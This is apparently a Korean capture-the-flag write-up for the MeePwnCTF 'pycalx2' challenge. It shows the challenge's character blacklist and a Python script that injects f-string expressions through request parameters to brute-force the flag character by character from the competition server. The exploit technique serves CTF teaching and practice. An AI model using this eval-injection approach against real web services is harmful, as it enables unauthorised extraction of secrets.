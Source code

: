 #### 플래그

FLAG : MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}



## pycalx2

#### 문제 설명

> You should solve `PyCalx` first. 

#### 문제 풀이

pycalx의 문제에서 op에 getValue을 추가적으로 거쳐 필터링이 추가되어 있다.

```python
def get_value(val):
    val = str(val)[:64]
    if str(val).isdigit(): return int(val)
    	blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
    if val == '' or [c for c in blacklist if c in val] != []:
    	print('<center>Invalid value</center>')
    	sys.exit(0)
    return val
```

이와 같은 경우도 위와 같은 코드를 통해 뽑을 수 있다.

```python
import requests

url = 'http://206.189.223.3/cgi-bin/server.py'

params = {'value1': 'True',
          'op': '+f',
          'value2': '{source*0 if source in FLAG else 1}'}

flag = 'MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}'

while True:
    for i in range(ord('['), 0x100):
        print i
        params['source'] = flag + chr(i)
        r = requests.get(url, params=params)
        if 'Invalid' not in r.text:
            flag += chr(i)
            print flag
            break
```

#### 플래그

MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}
